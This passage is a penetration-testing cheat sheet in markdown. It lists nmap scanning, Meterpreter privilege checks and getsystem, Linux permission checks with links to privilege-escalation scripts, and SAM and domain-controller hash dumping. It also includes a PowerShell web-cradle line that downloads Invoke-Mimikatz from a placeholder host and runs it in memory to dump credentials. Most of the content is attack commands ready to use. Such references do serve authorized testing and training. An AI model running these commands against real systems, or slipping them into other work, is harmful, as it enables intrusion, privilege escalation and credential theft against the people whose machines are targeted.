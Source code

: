 ```nmap -sS -O -p1-65535 --script banner 192.168.1.1/24```
Windows - to check integrity level and permissions

```meterpreter> use post/windows/gather/win_privs```

This module will print if UAC is enabled, and if the current account is ADMIN enabled. It will also print UID,foreground SESSION ID, is SYSTEM status and current process PRIVILEGES

```meterpreter> getsystem```

Attempt to get system privs on Windows system


**Linux**

```id ```

Check permissions of current user

```groups ```

Group membership for current user

```who -r```

Check run level on Linux

[Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/) - g0tmi1k

[Local Linux Enumeration & Privilege Escalation Cheatsheet](https://www.rebootuser.com/?p=1623) - Rebootuser

[Unix Priv Esc Check](http://pentestmonkey.net/tools/audit/unix-privesc-check) - pentestmonkey

[privescalation](https://github.com/expl0i13r/privescalation/blob/master/privescalation.sh) - eXpl0i13r

[linuxprivchecker](http://www.securitysift.com/download/linuxprivchecker.py) - securitysift

[linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester) - mzet

## Dumping hashes

### Windows

```meterpreter> run post/windows/gather/hashdump```

Dump the local user accounts from the SAM database using the registry

```powershell "IEX (New-Object Net.WebClient).DownloadString('http://<invoke-mimkatz>'); Invoke-Mimikatz -DumpCreds"```

Run Invoke-Mimikatz in memory with Powershell web cradle. You can add all arguments to the end of command

```meterpreter> use post/windows/gather/credentials/domain_hashdump```

Dump hashes from domain controller safely

## Post Exploitation

```post/windows/recon/computer_browser_discovery ```

Uses railgun to discover hostnames and IPs on the network

```post/windows/gather/arp-scanner ```
```